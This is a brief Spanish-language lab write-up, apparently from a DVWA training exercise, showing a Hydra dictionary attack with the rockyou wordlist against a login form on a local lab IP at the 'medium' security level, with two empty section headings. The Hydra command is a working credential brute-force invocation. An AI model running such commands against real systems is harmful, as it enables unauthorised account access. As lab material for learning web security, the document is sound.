

Utilizando hydra para realizar un ataque de diccionario para encontrar las credenciales de acceso.

La diferencia entre low y medium es el tiempo de respuesta entre accesos.

Comando - nivel medio:
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.1.206 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=beb3886943fd6314e7836dc7b8e33d79;security=medium:F=Username and/or password incorrect."

### Nivel LOW

### Nivel Medio

